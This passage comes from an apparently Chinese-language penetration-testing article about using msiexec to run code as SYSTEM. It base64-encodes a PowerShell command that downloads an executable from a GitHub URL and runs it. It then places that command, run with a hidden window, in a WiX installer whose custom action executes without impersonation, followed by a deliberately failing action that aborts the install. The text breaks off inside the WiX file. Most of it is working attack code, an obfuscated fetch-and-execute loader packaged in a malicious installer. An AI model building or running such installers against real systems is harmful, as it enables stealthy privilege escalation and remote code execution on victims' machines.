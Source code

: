 该方法我之前的两篇文章《渗透测试中的msiexec》《渗透技巧——从Admin权限切换到System权限》有过介绍，细节不再赘述

首先将powershell实现下载执行的代码作base64编码：

```
$fileContent = "(new-object System.Net.WebClient).DownloadFile('https://github.com/3gstudent/test/raw/master/putty.exe','c:\download\a.exe');start-process 'c:\download\a.exe'"
$bytes  = [System.Text.Encoding]::Unicode.GetBytes($fileContent);
$encoded = [System.Convert]::ToBase64String($bytes); 
$encoded
```

得到：

`KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcABzADoALwAvAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwAzAGcAcwB0AHUAZABlAG4AdAAvAHQAZQBzAHQALwByAGEAdwAvAG0AYQBzAHQAZQByAC8AcAB1AHQAdAB5AC4AZQB4AGUAJwAsACcAYwA6AFwAZABvAHcAbgBsAG8AYQBkAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAGQAbwB3AG4AbABvAGEAZABcAGEALgBlAHgAZQAnAA==`

完整powershell命令为：

`powershell -WindowStyle Hidden -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcABzADoALwAvAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwAzAGcAcwB0AHUAZABlAG4AdAAvAHQAZQBzAHQALwByAGEAdwAvAG0AYQBzAHQAZQByAC8AcAB1AHQAdAB5AC4AZQB4AGUAJwAsACcAYwA6AFwAZABvAHcAbgBsAG8AYQBkAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAGQAbwB3AG4AbABvAGEAZABcAGEALgBlAHgAZQAnAA==`

完整wix文件为：

```
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
  <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product 
Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
    <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
    <Media Id="1" />

    <Directory Id="TARGETDIR" Name="SourceDir">
      <Directory Id="ProgramFilesFolder">
        <Directory Id="INSTALLLOCATION" Name="Example">
          <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">     
          </Component>
        </Directory>
      </Directory>
    </Directory>

    <Feature Id="DefaultFeature" Level="1">
      <ComponentRef Id="ApplicationFiles"/>
    </Feature>

    <Property Id="cmdline">powershell -WindowStyle Hidden -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcABzADoALwAvAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwAzAGcAcwB0AHUAZABlAG4AdAAvAHQAZQBzAHQALwByAGEAdwAvAG0AYQBzAHQAZQByAC8AcAB1AHQAdAB5AC4AZQB4AGUAJwAsACcAYwA6AFwAZABvAHcAbgBsAG8AYQBkAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAGQAbwB3AG4AbABvAGEAZABcAGEALgBlAHgAZQAnAA==
    </Property>

    <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" 
ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>

    <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
      invalid vbs to fail install
    </CustomAction>

    <InstallExecuteSequence>
      <Custom Action="SystemShell" After="InstallInitialize"></Custom>
      <Custom Action="FailInstall" Before="InstallFiles"></Custom>
```